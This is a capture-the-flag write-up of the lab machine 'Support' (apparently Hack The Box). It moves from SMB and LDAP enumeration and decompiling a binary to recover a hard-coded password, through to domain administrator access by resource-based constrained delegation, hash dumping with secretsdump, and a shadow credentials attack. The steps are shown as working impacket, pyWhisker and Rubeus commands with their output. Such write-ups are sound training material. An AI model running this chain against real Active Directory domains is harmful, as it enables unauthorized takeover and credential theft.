

# Support

## Machine Info


## Recon

### port

Service checklist:

- 139, 445, SMB: shares
- 389, 3268 LDAP: enum without credentials
- 88, Kerberos: brute force usernames & as-rep roasting
- 53, DNS: zone transfer & subdomain
- 135, RPC: anonymous access

```console
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-02-23 15:20:46Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: support.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49708/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022 (88%)
Aggressive OS guesses: Microsoft Windows Server 2022 (88%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

### samba

- READ ONLY: `support-tools`

```console
└─╼$ smbmap -H 10.129.24.164 -u anonymous

    ________  ___      ___  _______   ___      ___       __         _______
   /"       )|"  \    /"  ||   _  "\ |"  \    /"  |     /""\       |   __ "\
  (:   \___/  \   \  //   |(. |_)  :) \   \  //   |    /    \      (. |__) :)
   \___  \    /\  \/.    ||:     \/   /\   \/.    |   /' /\  \     |:  ____/
    __/  \   |: \.        |(|  _  \  |: \.        |  //  __'  \    (|  /
   /" \   :) |.  \    /:  ||: |_)  :)|.  \    /:  | /   /  \   \  /|__/ \
  (_______/  |___|\__/|___|(_______/ |___|\__/|___|(___/    \___)(_______)
 -----------------------------------------------------------------------------
     SMBMap - Samba Share Enumerator | Shawn Evans - ShawnDEvans@gmail.com
                     https://github.com/ShawnDEvans/smbmap

[*] Detected 1 hosts serving SMB
[*] Established 1 SMB session(s)

[+] IP: 10.129.24.164:445       Name: support.htb               Status: Authenticated
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        C$                                                      NO ACCESS       Default share
        IPC$                                                    READ ONLY       Remote IPC
        NETLOGON                                                NO ACCESS       Logon server share
        support-tools                                           READ ONLY       support staff tools
        SYSVOL                                                  NO ACCESS       Logon server share
```

- Download suspicious exe file: `UserInfo.exe.zip`

```console
└─╼$ smbclient //10.129.24.164/support-tools -N
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Jul 21 01:01:06 2022
  ..                                  D        0  Sat May 28 19:18:25 2022
  7-ZipPortable_21.07.paf.exe         A  2880728  Sat May 28 19:19:19 2022
  npp.8.4.1.portable.x64.zip          A  5439245  Sat May 28 19:19:55 2022
  putty.exe                           A  1273576  Sat May 28 19:20:06 2022
  SysinternalsSuite.zip               A 48102161  Sat May 28 19:19:31 2022
  UserInfo.exe.zip                    A   277499  Thu Jul 21 01:01:07 2022
  windirstat1_1_2_setup.exe           A    79171  Sat May 28 19:20:17 2022
  WiresharkPortable64_3.6.5.paf.exe      A 44398000  Sat May 28 19:19:43 2022

                4026367 blocks of size 4096. 967219 blocks available
```

### UserInfo Binary File

**Static analysis**:


**Dynamic analysis**: network usage (ldap query)


```console
# .\UserInfo.exe -v find -first qwe0 -last qwe1
[*] LDAP query to use: (&(givenName=qwe0)(sn=qwe1))
[-] No users identified with that query.
```

## Foothold

### LDAP Command Injection

> **Reference**: 
>
> - [LDAP Injection | HackTricks | HackTricks](https://book.hacktricks.xyz/pentesting-web/ldap-injection)
> - [What is LDAP Injection](https://www.synopsys.com/glossary/what-is-ldap-injection.html)

```console
# .\UserInfo.exe -v find -first *
[*] LDAP query to use: (givenName=*)
[+] Found 15 results:
       raven.clifton
       anderson.damian
       monroe.david
       cromwell.gerard
       west.laura
       levine.leopoldo
       langley.lucy
       daughtler.mabel
       bardot.mary
       stoll.rachelle
       thomas.raphael
       smith.rosario
       wilson.shelby
       hernandez.stanley
       ford.victoria
       ----------------------
       last_name . first_name
```

### DNSpy: Static Analysis

Password used here: This password is used to login ldap entry.


Encryption algorithm:

```c#
private static string enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E";
private static byte[] key = Encoding.ASCII.GetBytes("armando");
```


Decryption: `ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`



```console
└─╼$ crackmapexec smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
SMB         support.htb     445    DC               [*] Windows 10.0 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False)
SMB         support.htb     445    DC               [+] support.htb\ldap:nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz
```

### LDAP Enumeration

> LDAPSearch: [here](https://docs.ldap.com/ldap-sdk/docs/tool-usages/ldapsearch.html)

```console
└─╼$ ldapsearch -H ldap://support.htb -x -D "ldap@support.htb" -b "DC=SUPPORT,DC=HTB" -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' | tee ldapsearch.out
----------------------------------------------------------------------------------
└─╼$ cat ldapsearch.out | grep -E "# .* Users, support.htb"
# Administrator, Users, support.htb
# Guest, Users, support.htb
# krbtgt, Users, support.htb
# Domain Computers, Users, support.htb
# Domain Controllers, Users, support.htb
# Schema Admins, Users, support.htb
# Enterprise Admins, Users, support.htb
# Cert Publishers, Users, support.htb
# Domain Admins, Users, support.htb
# Domain Users, Users, support.htb
# Domain Guests, Users, support.htb
# Group Policy Creator Owners, Users, support.htb
# RAS and IAS Servers, Users, support.htb
# Allowed RODC Password Replication Group, Users, support.htb
# Denied RODC Password Replication Group, Users, support.htb
# Read-only Domain Controllers, Users, support.htb
# Enterprise Read-only Domain Controllers, Users, support.htb
# Cloneable Domain Controllers, Users, support.htb
# Protected Users, Users, support.htb
# Key Admins, Users, support.htb
# Enterprise Key Admins, Users, support.htb
# DnsAdmins, Users, support.htb
# DnsUpdateProxy, Users, support.htb
# Shared Support Accounts, Users, support.htb
# ldap, Users, support.htb
# support, Users, support.htb
# smith.rosario, Users, support.htb
# hernandez.stanley, Users, support.htb
# wilson.shelby, Users, support.htb
# anderson.damian, Users, support.htb
# thomas.raphael, Users, support.htb
# levine.leopoldo, Users, support.htb
# raven.clifton, Users, support.htb
# bardot.mary, Users, support.htb
# cromwell.gerard, Users, support.htb
# monroe.david, Users, support.htb
# west.laura, Users, support.htb
# langley.lucy, Users, support.htb
# daughtler.mabel, Users, support.htb
# stoll.rachelle, Users, support.htb
# ford.victoria, Users, support.htb
```

Find another credential: `support:Ironside47pleasure40Watchful`

```console
└─╼$ cat ldapsearch.out | grep "# support, Users, support.htb" -A50
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
memberOf: CN=Shared Support Accounts,CN=Users,DC=support,DC=htb
memberOf: CN=Remote Management Users,CN=Builtin,DC=support,DC=htb
uSNChanged: 12630
company: support
streetAddress: Skipper Bowles Dr
name: support
objectGUID:: CqM5MfoxMEWepIBTs5an8Q==
userAccountControl: 66048
badPwdCount: 0
codePage: 0
countryCode: 0
badPasswordTime: 0
lastLogoff: 0
lastLogon: 0
pwdLastSet: 132982099209777070
primaryGroupID: 513
objectSid:: AQUAAAAAAAUVAAAAG9v9Y4G6g8nmcEILUQQAAA==
accountExpires: 9223372036854775807
logonCount: 0
sAMAccountName: support
sAMAccountType: 805306368
objectCategory: CN=Person,CN=Schema,CN=Configuration,DC=support,DC=htb
dSCorePropagationData: 20220528111201.0Z
dSCorePropagationData: 16010101000000.0Z
```

```console
└─╼$ crackmapexec winrm support.htb -u support -p 'Ironside47pleasure40Watchful'
SMB         support.htb     5985   DC               [*] Windows 10.0 Build 20348 (name:DC) (domain:support.htb)
HTTP        support.htb     5985   DC               [*] http://support.htb:5985/wsman
WINRM       support.htb     5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

## Privilege Escalation

BloodHound:


### Resource-Based Constrained Delegation

support user who is able to add a new computer account (addcomputer.py) -> add write delegation (rbcd.py) -> get a service ticket which allows created computer account to impersonate admin (getST.py)

```console
└─╼$ impacket-addcomputer -computer-name 'QWE$' -computer-pass 'imqwe' -dc-host support.htb -domain-netbios support.htb 'forest.htb/support:Ironside47pleasure40Watchful'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account QWE$ with password imqwe.

└─╼$ impacket-rbcd -delegate-from 'QWE$' -delegate-to 'DC$' -action 'write' -dc-ip $IP 'forest.htb/support:Ironside47pleasure40Watchful'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] QWE$ can now impersonate users on DC$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     QWE$         (S-1-5-21-1677581083-3380853377-188903654-6101)

└─╼$ impacket-getST -spn 'http/dc.support.htb' -impersonate 'Administrator' -dc-ip dc.support.htb 'support.htb/QWE:imqwe'
Impacket v0.11.0 - Copyright 2023 Fortra

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache

└─╼$ export KRB5CCNAME=Administrator.ccache; impacket-wmiexec -k -no-pass support.htb/administrator@dc.support.htb -dc-ip $IP -shell-type powershell
Impacket v0.11.0 - Copyright 2023 Fortra

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
PS C:\> whoami
support\administrator
```

Dump nthash

```console
└─╼$ impacket-secretsdump -k -no-pass support.htb/administrator@dc.support.htb -dc-ip $IP
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xf678b2597ade18d88784ee424ddc0d1a
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:bb06cbc02b39abeddd1335bc30b19e26:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```

### Shadow Credential Attack

To abuse this privilege, use [pyWhisker](https://github.com/ShutdownRepo/pywhisker).

```console
└─╼$ python pywhisker.py -d support.htb -u support -p 'Ironside47pleasure40Watchful' --target "DC$" --action "add"
[*] Searching for the target account
[*] Target user found: CN=DC,OU=Domain Controllers,DC=support,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: 7cf07fb5-baeb-820b-f820-25159233fec1
[*] Updating the msDS-KeyCredentialLink attribute of DC$
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: 2cHQrSP7.pfx
[*] Must be used with password: PRit6aUGeKso8oruVI0z
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools

python3 PKINITtools/gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass xl6RyLBLqdhBlCTHJF3R domain.local/user2 user2.ccache
python3 PKINITtools/getnthash.py -key f4d6738897808edd3868fa8c60f147366c41016df623de048d600d4e2f156aa9 domain.local/user2
```

### Resource-Based Constrained Delegation, RBCD

Next, we need to set this newly created security descriptor in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the comptuer account we're taking over, again using PowerView in this case:
`Get-DomainComputer $TargetComputer | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}`
We can then use Rubeus to hash the plaintext password into its RC4_HMAC form:
`Rubeus.exe hash /password:Summer2018!`
And finally we can use Rubeus' *s4u* module to get a service ticket for the service name (sname) we want to "pretend" to be "admin" for. This ticket is injected (thanks to /ptt), and in this case grants us access to the file system of the TARGETCOMPUTER:
`Rubeus.exe s4u /user:attackersystem$ /rc4:EF266C6B963C0BB683941032008AD47F /impersonateuser:admin /msdsspn:cifs/TARGETCOMPUTER.testlab.local /ptt`

```console
*Evil-WinRM* PS C:\Users\support\Documents> ./Rubeus.exe hash /user:QWE$ /password:imqwe /domain:support.htb

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


[*] Action: Calculate Password Hash(es)

[*] Input password             : imqwe
[*] Input username             : QWE$
[*] Input domain               : support.htb
[*] Salt                       : SUPPORT.HTBhostqwe.support.htb
[*]       rc4_hmac             : A36C56F10C348AD4C791364070701120
[*]       aes128_cts_hmac_sha1 : C5CB86C91ED9E8FE0A068C3431E52013
[*]       aes256_cts_hmac_sha1 : 3843CFD7706AA83BF647A3D9F9E185738B7CAA7B6DD1FFD5583320F6761960C0
[*]       des_cbc_md5          : CBE5E367402A7C31
```

## Exploit Chain

port scan -> samba service with binary file -> ldap cmd injection -> password ecnryption -> ldap credential with winrm -> Resource-Based Constrained Delegation -> admin priv
